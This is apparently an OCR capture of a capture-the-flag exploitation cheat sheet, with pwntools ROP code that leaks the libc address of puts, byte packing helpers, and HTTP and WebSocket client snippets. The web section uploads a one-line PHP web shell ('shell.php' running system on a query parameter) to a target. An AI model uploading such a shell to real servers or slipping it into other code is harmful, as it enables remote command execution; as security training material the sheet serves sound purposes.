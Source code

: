 ```python

# ROP
rop = ROP(elf)
rop.call(elf.symbols['puts'], [elf.got['puts']])
```

---

## 🔁 Packing & Unpacking

```python
# pack/unpack little-endian
p32 = lambda x: struct.pack('<I', x)
u32 = lambda b: struct.unpack('<I', b)[0]
p64 = lambda x: struct.pack('<Q', x)
u64 = lambda b: struct.unpack('<Q', b)[0]

# recv fixed bytes from pwntools remote
data = r.recvn(8)  # recv exactly 8
val = u64(data)
```

---

## 🕸️ Web & WebSocket

```python
# HTTP (requests)
s = requests.Session()
r = s.get('http://target/endpoint', timeout=5)
# upload
files = {'file': ('shell.php', '<?php system($_GET["c"]); ?>')}
r = s.post('http://target/upload', files=files)

# websocket-client (blocking)
from websocket import create_connection
ws = create_connection('ws://target/ws')
ws.send(json.dumps({'cmd':'hello'}))
print(ws.recv())
ws.close()

# websockets (asyncio)
import asyncio, websockets
async def run():
    async with websockets.connect('ws://target/ws') as ws:
        await ws.send('ping')
        msg = await ws.recv()
        print(msg)
asyncio.run(run())
```

---
